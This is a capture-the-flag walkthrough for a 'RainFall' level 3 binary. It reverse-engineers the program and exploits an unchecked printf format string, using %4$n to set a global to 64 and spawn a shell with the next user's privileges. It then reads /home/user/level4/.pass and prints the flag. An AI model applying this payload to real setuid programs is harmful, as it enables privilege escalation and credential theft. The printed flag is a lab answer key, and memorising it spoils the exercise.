


# Level 3

## Setup
We find a binary file at the root of the user **`level3`** named *`./level3`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level3@localhost:/home/user/level3/level3 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Automatically analyze the binary
...
[0x08048ec0]> v # Enter visual mode
```

<p align="center">
   
</p>

### Code with addresses
```assembly
0x080484A4 ; =============== S U B R O U T I N E =======================================
0x080484A4
0x080484A4 ; Attributes: bp-based frame
0x080484A4
0x080484A4 public v
0x080484A4 v proc near                             ; CODE XREF: main+6↓p
0x080484A4
0x080484A4 var_208= byte ptr -208h
0x080484A4
0x080484A4 ; __unwind {
0x080484A4 push    ebp
0x080484A5 mov     ebp, esp
0x080484A7 sub     esp, 218h
0x080484AD mov     eax, ds:stdin@@GLIBC_2_0
0x080484B2 mov     [esp+8], eax
0x080484B6 mov     dword ptr [esp+4], 200h
0x080484BE lea     eax, [ebp+var_208]
0x080484C4 mov     [esp], eax
0x080484C7 call    _fgets
0x080484CC lea     eax, [ebp+var_208]
0x080484D2 mov     [esp], eax
0x080484D5 call    _printf
0x080484DA mov     eax, ds:m
0x080484DF cmp     eax, 40h ; '@'
0x080484E2 jnz     short locret_8048518
0x080484E4 mov     eax, ds:stdout@@GLIBC_2_0
0x080484E9 mov     edx, eax
0x080484EB mov     eax, offset aWaitWhat           ; "Wait what?!\n"
0x080484F0 mov     [esp+0Ch], edx
0x080484F4 mov     dword ptr [esp+8], 0Ch
0x080484FC mov     dword ptr [esp+4], 1
0x08048504 mov     [esp], eax
0x08048507 call    _fwrite
0x0804850C mov     dword ptr [esp], offset aBinSh  ; "/bin/sh"
0x08048513 call    _system
0x08048518
0x08048518 locret_8048518:                         ; CODE XREF: v+3E↑j
0x08048518 leave
0x08048519 retn
0x08048519 ; } // starts at 80484A4
0x08048519 v endp
0x08048519
0x0804851A
0x0804851A ; =============== S U B R O U T I N E =======================================
0x0804851A
0x0804851A ; Attributes: bp-based frame fuzzy-sp
0x0804851A
0x0804851A ; int __cdecl main(int argc, const char **argv, const char **envp)
0x0804851A public main
0x0804851A main proc near                          ; DATA XREF: _start+17↑o
0x0804851A
0x0804851A argc= dword ptr  8
0x0804851A argv= dword ptr  0Ch
0x0804851A envp= dword ptr  10h
0x0804851A
0x0804851A ; __unwind {
0x0804851A push    ebp
0x0804851B mov     ebp, esp
0x0804851D and     esp, 0FFFFFFF0h
0x08048520 call    v
0x08048525 leave
0x08048526 retn
0x08048526 ; } // starts at 804851A
0x08048526 main endp
0x08048526
```

<p align="center">
   
</p>

### Source

The equivalent program in C would be:
```C
#include <stdio.h>

int m = 0;

int v() {
    int result;         // EAX
    char buffer[520];   // [esp+10h] [ebp-208h] BYREF
    fgets(buffer, 512, stdin);  // Read up to 512 characters from stdin
    printf(buffer); // Print the buffer
    result = m;
    if (m == 64) {  // @
        fwrite("Wait what?!\n", 1, 12, stdout);
        return (system("/bin/sh"));
    }
    return (result);
}

int main() {
    return (v());
}
```

We can see that this time we have, an `fgets()` function instead of a `gets()` function, which is protected against *buffer overflow*, but the `printf()` is vulnerable against `format string` exploits. And also a global variable `m`, which is what determines if we can access the `system("/bin/sh")`.


### Permissions
As we can see in the permissions of the executable file, the binary `./level3` is executed with the privileges of the user **level4**, the owner of the file.
```bash
level3@RainFall:~$ ls -l level3 
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

## Reverse Engineer

After our input gets captured by the `fgets` function into the buffer, it prints it directly to the `printf` function as unique parameter `printf(buffer)`. This means that we can input format strings for printf and they will be executed.
```
Input:
AAAA %x %x %x %x %x %x %x %x

Breakpoint 1, 0x080484cc in v () # after the fgets call
(gdb) x/s $eax
0xbffff440:	 "AAAA %x %x %x %x %x %x %x %x\n"
(gdb) x/8xw $eax
0xbffff440:	0x41414141	0x20782520	0x25207825	0x78252078
0xbffff450:	0x20782520	0x25207825	0x78252078	0x0000000a
(gdb) continue
Continuing.

AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
```
As we see here, the *input string* (or the *buffer*) is stored on the `EAX` register and when `printf` executes the *format specifiers* `%x`, retreiving values from the stack (as it doesn't have any parameter to retreive from), we can identify our *input string* `41414141 20782520 25207825 78252078 20782520` on the **4th** *format specifier* / *argument*.

There is one *format specifier* in `printf` that allow us to store the **number of characters** written so far, into the integer pointed to by the corresponding argument: `%n`. We can specify in which argument we want this **number of characters** to be stored in, by specifying it like this: `%<argumentNumber>$n`.

```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
(gdb) info variables m
All variables matching regular expression "m":
0x0804988c  m
```

Our input begins on the **4th** "argument" of `printf`, so we can specify the address where we want to store the **number of characters** on our input and use `%4$n`.

We need the *global variable* `m` (in the address `0x0804988c`) to be equal to *64* to get access to the shell with `system("/bin/sh")`. So in order to write the number *64* on the variable, we can use the `%n` specifier and compose an *input string* of *64* bytes or characters.

```bash
0x0804988c --> \x8c\x98\x04\x08
\x8c\x98\x04\x08 + padding of 60 characters + %4$n
```

### Solution

We can execute the `printf` buffer to store the number *64* on the address `0x0804988c` where the `m` variable is with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
$(printf '\x8c\x98\x04\x08%-60s' && echo '%4$n' ; cat ) | ./level3

cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```